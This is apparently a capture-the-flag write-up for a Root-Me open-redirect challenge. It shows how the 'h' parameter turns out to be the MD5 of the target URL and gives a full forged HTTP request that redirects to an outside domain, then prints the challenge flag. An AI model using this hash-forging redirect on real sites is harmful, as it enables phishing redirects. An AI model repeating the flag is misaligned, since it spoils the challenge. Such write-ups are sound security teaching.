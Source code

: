 ```yaml
---
custom_edit_url: null
sidebar_position: 3
---
```


> Find a way to make a redirection to a domain other than those showed on the web page.

![1](https://github.com/Knign/Write-ups/assets/110326359/ee04fb63-1a0b-46ac-a2b7-cdb6e2a69256)

We can click on any of the options and intercept the request using Burpsuite.

![2](https://github.com/Knign/Write-ups/assets/110326359/45b55aeb-161a-43da-8d32-99d0baa03cd2)

```
GET /web-serveur/ch52/?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134 HTTP/1.1
```
The request would typically be processed by a web server, which would attempt to access the specified URL (in this case, `https://facebook.com`) and respond accordingly.

The `h` parameter may be some form of hash used for the purpose of authentication.

Let's decode the hash using an online decoder.

![3](https://github.com/Knign/Write-ups/assets/110326359/2952d985-90bb-4b05-82d8-d6460838e430)

So the MD5 hashing function was used to encode `https://facebook.com` and the hash was then included in the `h` parameter.

Let's say we want to redirect to `https://openredirect.com`, we would have to set the `h` parameter to the hash of the `url` parameter.

![4](https://github.com/Knign/Write-ups/assets/110326359/fd1bf08c-ce6b-4bd6-ae4f-1a555e190ef2)

## HTTP Request
```
GET /web-serveur/ch52/?url=https://openredirect.com&h=467e5d669ea35a18601efe9bb20f52ad HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch52/
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697302688.4.1.1697302689.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
For the final step, we have to send this request to the server.

![5](https://github.com/Knign/Write-ups/assets/110326359/49a20eec-87a0-4456-b0ce-b78328931dcf)

## Flag
```
e6f8a530811d5a479812d7b82fc1a5c5
```
